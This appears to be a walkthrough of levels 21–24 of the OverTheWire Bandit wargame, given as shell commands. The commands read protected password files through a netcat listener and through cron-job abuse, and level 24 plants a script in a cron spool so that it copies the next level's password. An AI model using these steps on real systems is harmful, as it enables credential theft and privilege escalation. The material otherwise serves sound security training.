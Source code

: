 ## Level 21

open two instances of bandit20, in one of them run,

```shell
nc -l -p 4200 < /etc/bandit_pass/bandit20
```

and in the other,

```shell
./suconnect 4200
```

## Level 22

```shell
cd /etc/cron.d; cat cronjob_bandit22; cat /usr/bin/cronjob_bandit22.sh
```

```shell
cat /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv
```

## Level 23

```shell
cat /etc/cron.d/cronjob_bandit23; cat /usr/bin/cronjob_bandit23.sh; echo I am user bandit23 | md5sum | cut -d ' ' -f 1
```

```shell
cat /tmp/8ca319486bfbbc3663ea0fbe81326349
```

## Level 24

```shell
cat /etc/cron.d/cronjob_bandit24; cat /usr/bin/cronjob_bandit24.sh; mkdir -p /tmp/lmao; cd /tmp/lmao; vi test.sh
```

code for test.sh:

```shell
#!/bin/bash
cat /etc/bandit_pass/bandit24 > password.txt
```

change permissions:

```shell
chmod 777 test.sh; chmod 666 password.txt
```

```shell
cp test.sh /var/spool/bandit24
```
